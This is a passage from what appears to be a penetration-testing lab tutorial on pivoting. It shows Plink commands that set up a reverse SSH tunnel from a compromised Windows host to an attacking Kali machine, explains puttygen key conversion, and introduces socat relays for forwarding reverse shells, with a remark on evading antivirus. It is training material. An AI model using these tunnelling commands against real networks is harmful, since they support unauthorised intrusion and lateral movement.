 Generally speaking, Windows servers are unlikely to have an SSH server running so our use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection. This would be done with the following command:
```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

Notice that this syntax is nearly identical to previously when using the standard OpenSSH client. The cmd.exe /c echo y at the start is for non-interactive shells (like most reverse shells -- with Windows shells being difficult to stabilise), in order to get around the warning message that the target has not connected to this host before.

To use our example from before, if we have access to 172.16.0.5 and would like to forward a connection to 172.16.0.10:80 back to port 8000 our own attacking machine (172.16.0.20), we could use this command:

```
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N

```

Note that any keys generated by ssh-keygen will not work properly here. You will need to convert them using the puttygen tool, which can be installed on Kali using sudo apt install putty-tools. After downloading the tool, conversion can be done with:
puttygen KEYFILE -o OUTPUT_KEY.ppk
Substituting in a valid file for the keyfile, and adding in the output file.

The resulting .ppk file can then be transferred to the Windows target and used in exactly the same way as with the Reverse port forwarding taught in the previous task (despite the private key being converted, it will still work perfectly with the same public key we added to the authorized_keys file before).

Note: Plink is notorious for going out of date quickly, which often results in failing to connect back. Always make sure you have an up to date version of the .exe. Whilst there is a copy pre-installed on Kali at /usr/share/windows-resources/binaries/plink.exe, downloading a new copy from here before a new engagement is sensible.


## Socat

Socat is not just great for fully stable Linux shells[1], it's also superb for port forwarding. The one big disadvantage of socat (aside from the frequent problems people have learning the syntax), is that it is very rarely installed by default on a target. That said, static binaries are easy to find for both Linux and Windows. Bear in mind that the Windows version is unlikely to bypass Antivirus software by default, so custom compilation may be required. Before we begin, it's worth noting: if you have completed the What the Shell? room, you will know that socat can be used to create encrypted connections. The techniques shown here could be combined with the encryption options detailed in the shells room to create encrypted port forwards and relays. To avoid overly complicating this section, this technique will not be taught here; however, it's well worth experimenting with this in your own time.

Whilst the following techniques could not be used to set up a full proxy into a target network, it is quite possible to use them to successfully forward ports from both Linux and Windows compromised targets. In particular, socat makes a very good relay: for example, if you are attempting to get a shell on a target that does not have a direct connection back to your attacking computer, you could use socat to set up a relay on the currently compromised machine. This listens for the reverse shell from the target and then forwards it immediately back to the attacking box:
